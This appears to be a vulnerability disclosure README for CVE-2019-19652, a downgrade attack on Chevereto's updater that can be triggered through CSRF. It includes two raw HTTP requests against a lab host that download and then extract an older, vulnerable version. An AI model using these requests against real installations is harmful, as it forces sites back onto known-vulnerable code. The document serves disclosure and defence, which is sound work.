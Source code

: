 # CVE-2019-19652
Chevereto downgrade attack - 1.0.0 - 1.1.4 Free, <= 3.13.5 Core. An admin user can instruct the updater script to downgrade to another version instead of upgrade, reintroducing previous flaws. Due to the lack of a CSRF token this attack can also be used in a CSRF attack, meaning an admin user can be tricked into performing this action.

# An admin user can tell the update script to download any version, even old ones

The server will return the full filename of the downloaded file which will then be used in the next request
```
GET /update/?action=download&version=3.13.4 HTTP/1.1
Host: 192.168.0.88
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://192.168.0.88/dashboard/settings/external-services
Cookie: PHPSESSID=47s523u1s4m67g0vaheldg4s31; KEEP_LOGIN=I8G%3A65983a8df3bcb482e2571a6e771c89600221f615208d39aee8bf6663b88aef732c7783e202410a7ae4c3ad2205c96baeddb841b912325b359ec79528638807efbff73a017c6d719aa0cab0d6a5814d98a671c17d457479371228c590e215f7e8bc7bfcb820142106%3A1575658473
Upgrade-Insecure-Requests: 1
```


# And then simply extract it over the current version, potentially making it vulnerable to old vulnerabilities

```
GET /update/?action=extract&file=chevereto_3.13.4_3e50e6fa70915cd22849819f.zip HTTP/1.1
Host: 192.168.0.88
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://192.168.0.88/dashboard/settings/external-services
Cookie: PHPSESSID=47s523u1s4m67g0vaheldg4s31; KEEP_LOGIN=I8G%3A65983a8df3bcb482e2571a6e771c89600221f615208d39aee8bf6663b88aef732c7783e202410a7ae4c3ad2205c96baeddb841b912325b359ec79528638807efbff73a017c6d719aa0cab0d6a5814d98a671c17d457479371228c590e215f7e8bc7bfcb820142106%3A1575658473
Upgrade-Insecure-Requests: 1
```
